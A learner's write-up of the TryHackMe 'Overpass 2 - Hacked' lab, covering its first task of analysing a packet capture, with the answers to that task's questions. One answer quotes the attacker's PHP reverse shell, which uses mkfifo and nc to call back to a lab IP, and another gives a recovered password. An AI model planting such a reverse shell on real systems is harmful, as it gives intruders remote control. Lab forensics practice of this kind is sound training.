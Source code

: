 <p align="center">December 12, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{220}}$$-day-streak in  <a href="https://tryhackme.com/">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Overpass 2 - Hacked}}$$

</h1>
<p align="center">Overpass has been hacked! Can you analyse the attacker's actions and hack back in?</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/overpass2hacked">Overpass - Hacked</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/56181f76-e131-4cd7-9986-6523c7062a51">
  <img width="800px" src="https://github.com/user-attachments/assets/7cb4b346-c93f-4c87-a04e-89f4f615bbe6">
</p>

<br>


<h2>Task 1. Forencics - Analyse the PCAP</h2>

<br>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

<br>

> 1.1. <em>What was the URL of the page they used to upload a reverse shell?</em><br><a id='1.1'></a>
>> <code><strong>/development/</strong></code>


<br>

![image](https://github.com/user-attachments/assets/65b16fd5-d17f-4045-b9eb-ce90853d922c)


<br>

> 1.2. <em>What payload did the attacker use to gain access?</em><br><a id='1.2'></a>
>> <code><strong><?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?></strong></code>

<br>

![image](https://github.com/user-attachments/assets/60fbc4b9-9521-4ded-81f9-2a4a44489c9a)

<br>

![image](https://github.com/user-attachments/assets/124fa995-0d09-4317-90af-8b3b137de3ab)

<br>

> 1.3. <em>What password did the attacker use to privesc?</em><br><a id='1.3'></a>
>> <code><strong>whenevernoteartinstant</strong></code>

